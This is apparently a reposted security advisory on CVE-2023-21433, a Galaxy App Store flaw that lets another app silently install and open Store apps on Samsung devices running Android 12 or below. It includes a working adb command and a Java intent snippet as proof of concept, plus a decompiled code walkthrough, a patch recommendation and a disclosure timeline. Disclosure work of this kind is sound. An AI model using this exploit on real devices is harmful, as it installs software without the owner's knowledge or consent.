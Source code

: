 ```yaml
---
layout: page
title: CVE-2023-21433 Details
permalink: /cves/cve-2023-21433
---
```


#### Original post: [https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/](https://research.nccgroup.com/2023/01/20/technical-advisory-multiple-vulnerabilities-in-the-galaxy-app-store-cve-2023-21433-cve-2023-21434/)

|    **Product**    | Galaxy Store 4.5.44.1, other versions affected |
|    **Severity**   |                  High                  |
| **CVE Reference** |             CVE-2023-21433             |
|      **Type**     |      Automatic Application Install     |

## Summary

It was found that the Galaxy App Store has an exported activity which does not handle incoming intents in a safe manner. This allows other applications installed on the same Samsung device to automatically install any application available on the Galaxy App Store without the user’s knowledge.

It should be noted that due to the changes made to Android 13, this issue only affects Samsung devices that are running Android 12 and below.

## Impact

A pre-installed rouge application on a Samsung device running Android 12 or below can abuse this issue to install any application currently available on the Galaxy App Store.

## Proof of Concept (PoC)

The following adb command can be used to abuse this issue to automatically install the application “Pokemon Go”:

```
am start -n com.sec.android.app.samsungapps/.detail.alleypopup.AlleyDetailActivity --es GUID com.nianticlabs.pokemongo.ares --ez directInstall true --ez directOpen true
```

Alternatively, the following Java code can be used to perform the same action:

```
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.sec.android.app.samsungapps", "com.sec.android.app.samsungapps.detail.alleypopup.AlleyDetailActivity"));
intent.putExtra("GUID", "com.nianticlabs.pokemongo.ares");
intent.putExtra("directInstall", true);
intent.putExtra("directOpen", true);
startActivity(intent);
```

## Technical Walkthrough

After executing the PoC, the activity `com.sec.android.app.samsungapps.detail.alleypopup.AlleyDetailActivity` method `onCreate(bundle)` processes the incoming intent. As a part of this function, one of two methods will be executed depending on if the incoming intent contained a data property:

```
public class AlleyDetailActivity {
...
public void onCreate(Bundle bundle) {
    ...
    Intent intent = getIntent();
    Uri data = intent.getData();
    ...
    if (data == null) {
        a(intent);
    } else {
        e();
    }
    ...
}
```

The PoC did not add a data property to the new intent, so the method `a(intent)` gets executed, while passing the calling intent as an argument. Within `a(intent)`, the intent and its extras are passed to class `com.sec.android.app.samsungapps.detail.alleypopup.AlleyBundleContainer` method `parseValues(bundle, intent)`:

```
public class AlleyDetailActivity {
...
public void a(Intent intent) {
    ...
    Bundle extras = intent.getExtras();
    AlleyBundleContainer bundleContainer = getBundleContainer();
    ...
    if (extras != null) {
        this.f = bundleContainer.parseValues(extras, intent);
    }
    ...
}
```

The method `parseValues(bundle, intent)` parses the intent extras and adds them to a Content object. Some of the important values include:

* "GUID" = the package name of the application to be installed
* 'directInstall" = if the package should be automatically installed
* "directOpen" = if the application should be opened right after it is installed

```
public class AlleyBundleContainer {
...
public ContentDetailContainer parseValues(Bundle bundle, Intent intent) {
    Content content = new Content();
    String string = bundle.getString(“GUID”);
    content.setGUID(string);
    ...
    this.g = bundle.getBoolean(“directInstall”, false)
    this.h = bundle.getBoolean(“directOpen”, false)
    ...
    return content;
}
```

Later, since `directInstall` is set to true, the application will execute the method `J()` within the `AlleyDetailActivity` class. This method will then execute the method `b(AlleyDetailActivity)` within the class `com.sec.android.app.samsungapps.detail.alleypopup.b`:

```
public class AlleyDetailActivity {
...
public void J() {
    ...
    if (this.d == Constant_todo.AppType.APP_NOT_INSTALLED || this.d == Constant_todo.AppType.APP_UPDATABLE) {
        b.b(this);
    }
}
```

The method `b(AlleyDetailActivity)` will then setup a task to download and install the target application which was previously specified by the incoming intent. After the application is installed, since `directOpen` was set to “True”, the Galaxy App Store application will open the newly installed application.

## Recommendation

For Samsung devices running Android 12 or lower, Samsung has released an updated version of the Galaxy App Store (version 4.5.49.8). Users should open the Galaxy App Store on their phone, and if prompted, download and install the latest version.

This issue does not affect devices running Android 13. Users should still update their Galaxy App Store to the latest version to address potentially other issues.

## Timeline

|    **Date**    | **Summary** |
|   23/11/2022   | Samsung notified of vulnerability |
|   23/11/2022   | Samsung acknowledge receipt of report and a security analyst was assigned to analyze the report |
|   11/12/2022   | Samsung confirmed the vulnerability and rated it as a High risk |
|   01/01/2023   | Samsung has released Galaxy App Store version 4.5.49.8 and has publicly disclosed the issue |